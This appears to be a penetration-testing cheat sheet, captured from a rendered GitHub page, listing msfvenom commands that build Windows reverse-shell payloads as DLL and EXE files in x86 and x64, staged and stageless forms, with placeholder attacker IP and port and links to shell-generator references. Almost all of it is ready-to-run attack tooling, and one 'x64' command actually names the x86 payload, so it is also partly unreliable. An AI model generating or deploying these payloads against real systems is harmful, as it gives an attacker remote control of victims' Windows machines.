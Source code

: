 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

- dll

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

- exe

Staged Payloads for Windows

x86

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Stageless Payloads for Windows(try first)

x86

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

